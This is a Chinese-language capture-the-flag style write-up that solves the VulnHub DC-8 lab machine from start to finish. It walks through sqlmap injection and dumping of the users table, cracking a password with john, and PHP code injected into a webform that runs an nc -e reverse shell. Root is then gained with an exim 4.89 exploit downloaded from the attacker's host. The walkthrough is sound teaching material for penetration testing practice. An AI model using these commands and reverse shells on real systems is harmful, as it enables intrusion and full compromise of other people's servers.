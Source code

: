 ```yaml
---
title: DC-8复现
permalink: /archives/54148/
published: 2022-12-01 14:57:00
tags: 
  - vulnhub
  - 渗透测试
category: 靶场&靶机
---
```


# DC-8复现

## 描述

> DC-8是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 这个挑战有点混合，既是实际挑战，又是关于在Linux上安装和配置的双因素身份验证是否可以防止Linux服务器被利用的“概念证明”。
>
> 这个挑战的“概念验证”部分是由于Twitter上被问到一个关于双因素身份验证和Linux的问题，也是由于@theart42的建议。
>
> 此挑战的最终目标是绕过双因素身份验证，获取root并读取唯一的标志。
>
> 除非您尝试通过SSH登录，否则您甚至可能不知道安装和配置了双因素身份验证，但它肯定在那里并且正在做它的工作。
>
> Linux 技能和对 Linux 命令行的熟悉是必须的，对基本渗透测试工具的一些经验也是必须的。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你总是可以在@DCAU7发推文给我寻求帮助，让你再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。

## 信息收集

确认目标机器的IP以及开启的端口

![image-20221201150628772](./images/image-20221201150628772.png)

访问80端口，点击welcome to DC-8发现这个url有点问题，猜想有sql注入

![image-20221201151645623](./images/image-20221201151645623.png)

扫描目录看看有没有登录口

```bash
dirsearch -u 192.168.71.130 -e * -x 403 --random-agent
```

![image-20221201160557499](./images/image-20221201160557499.png)

## SQl注入

在nid参数后面加入一个`'`后出现了sql报错直接**sqlmap**跑一下

### 爆破数据库

```bash
sqlmap -u "http://192.168.71.130/?nid=1" --dbs
```

得到两个库，其中`information_schema`是为了提供了访问数据库元数据的方式，所以可以暂时忽略

![image-20221201152316983](./images/image-20221201152316983.png)



### 爆破表

```bash
sqlmap -u "http://192.168.71.130/?nid=1" -D d7db --tables
```

一共88个表，包含有**users**表，

![image-20221201153542043](./images/image-20221201153542043.png)

![image-20221201153559541](./images/image-20221201153559541.png)

### 爆破列

```bash
sqlmap -u "http://192.168.71.130/?nid=1" -D d7db -T users --columns
```

得到16列

![image-20221201153635852](./images/image-20221201153635852.png)

### 爆破字段名

```bash
sqlmap -u "http://192.168.71.130/?nid=1" -D d7db -T users -C name,pass,uid --dump
```

得到两个用户名和经过加密的密码，将密码保存好，利用**john**进行爆破

![image-20221201154123064](./images/image-20221201154123064.png)

## 爆破密码

```bash
john dc8_pass.txt
```

爆出一个：turtle

![image-20221201154620496](./images/image-20221201154620496.png)

## 登录后台

爆出密码后尝试利用登录，前面信息收集的时候就有发现其登录入口，经过测试，发现爆破出来的是john的密码

![image-20221201160940053](./images/image-20221201160940053.png)

在`Content->Contact Us->Webform->Form settings`里发现有可利用点，可以写入php代码

![image-20221201161518710](./images/image-20221201161518710.png)

## 反弹shell

编写php文件直接执行命令反弹shell

```php
<?php
exec("nc -e /bin/bash 192.168.71.128 6666");
?> 
```

反弹成功

![image-20221201162252984](./images/image-20221201162252984.png)

切换交互式shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## 提权

find查找suid权限的命令

```bash
find / -perm -4000 -print 2>/dev/null
```

![image-20221201162431555](./images/image-20221201162431555.png)

其中的exim4是可利用进行提权的

首先查看exim4的版本

![image-20221201162654433](./images/image-20221201162654433.png)

搜索exim 4.89的漏洞

![image-20221201162930425](./images/image-20221201162930425.png)

复制文件到当前目录

```bash
cp /usr/share/exploitdb/exploits/linux/local/46996.sh hack.sh  
```

利用python起http服务进行传输

```bash
python -m http.server 6666
```

进入tmp文件夹下载文件

```bash
cd /tmp	//tmp文件夹
wget 192.168.71.128:6666/hack.sh	//下载目标文件
```

![image-20221201163259748](./images/image-20221201163259748.png)

但是这个文件是不可执行的，所以要对其赋予执行权限

```
ls -l	//查看当前目录下的所有文件权限
chmod 777 hack.sh	//赋予文件可读、可写和可执行权限
```

![image-20221201163421012](./images/image-20221201163421012.png)

脚本有两种方式，使用第二种利用**netcat**再次进行反弹shell

```bash
./hack.sh -m netcat		//执行脚本
nc -e /bin/bash 192.168.71.128 31337		//反弹shell
```

![image-20221201164356827](./images/image-20221201164356827.png)

## flag

进到根目录下找到flag

![image-20221201164614977](./images/image-20221201164614977.png)